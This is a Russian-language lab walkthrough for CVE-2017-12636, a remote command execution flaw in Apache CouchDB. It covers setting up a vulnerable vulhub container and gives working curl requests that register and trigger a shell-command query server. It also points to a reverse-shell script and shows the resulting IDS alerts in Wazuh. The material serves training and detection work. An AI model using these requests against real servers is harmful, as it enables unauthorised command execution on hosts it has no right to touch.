# CVE-2017-12636

Пользователи с ролью администратора CouchDB могут настраивать сервер базы данных через HTTP(S). Некоторые параметры конфигурации включают пути к исполняемым файлам на уровне операционной системы, которые впоследствии запускаются CouchDB. Это позволяет администратору в Apache CouchDB до версии 1.7.0 и 2.x до версии 2.1.1 выполнять произвольные команды оболочки от имени пользователя CouchDB, включая загрузку и выполнение скриптов из интернета.

### Материалы:

* [https://www.opencve.io/cve/CVE-2017-12636](https://www.opencve.io/cve/CVE-2017-12636)
* [https://nvd.nist.gov/vuln/detail/CVE-2017-12636](https://nvd.nist.gov/vuln/detail/CVE-2017-12636)
* [https://docs.couchdb.org/en/stable/cve/2017-12636.html](https://docs.couchdb.org/en/stable/cve/2017-12636.html)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/couchdb/CVE-2017-12636

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Для эксплуатации уязвимости выполнения произвольных команд, используйте инструкцию к [CVE-2017-12635](../containers/couchdb/cve-2017-12635.md) для создания пользователя с ролью администратора

<figure><img src="../.gitbook/assets/cve-2017-12636(1).png" alt=""><figcaption></figcaption></figure>

#### Эксплоит для версии 1.x

Последовательно отправьте следующие запросы, чтобы реализовать уязвимость выполнения произвольного кода

```
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@ваш-ip:5984/vultest/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```

Где vulhub:vulhub - это учетная запись и пароль администратора.

Первый запрос добавляет query\_servers с именем cmd и значением "id >/tmp/success" - это команда, которую мы собираемся выполнить.

Второй и третий запросы добавляют базу данных и документ, к которому можно будет обращаться только после того, как он будет добавлен.

Четвертый запрос - это выполнение запроса в этой базе данных, используется query\_servers с именем cmd, который был добавлен на первом шаге, и, наконец, выполнение команды.

Помимо эксплуатации "вручную" есть [скрипт](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py), автоматизирующий получение обратной оболочку уязвимого хоста.

Для получения шелла измените ip-адрес уязвимой машины в переменной "target" и ip-адрес и порт машины, на которую вы хотите получить обратную оболочку в переменной "command", поставьте listener на выбранный порт и запустите скрипт

<figure><img src="../.gitbook/assets/cve-2017-12636(2).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE

<figure><img src="../.gitbook/assets/cve-2017-12636(3).png" alt=""><figcaption></figcaption></figure>
